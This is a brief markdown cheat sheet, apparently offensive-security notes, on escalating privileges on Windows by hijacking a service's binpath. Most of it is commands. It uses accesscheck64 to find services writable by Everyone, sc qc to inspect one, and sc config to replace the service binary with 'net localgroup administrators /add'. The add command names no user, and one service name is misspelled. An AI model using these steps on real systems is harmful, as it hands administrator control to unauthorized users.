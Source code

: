 # Privilege Escalation via Windows Service binpath
- PowerUp
- accesscheck (sysinternals)
- sc

Using Accesscheck to find items we can write to as Everyone, suppressing errors and displaying service names
```
accesscheck64.exe -uwcv Everyone *
```
```
accesscheck64.exe -uwcv daclsvc
```
```
sc qc daclsv
```
```
sc config daclsvc binpath= "net localgroup administrators /add"
```
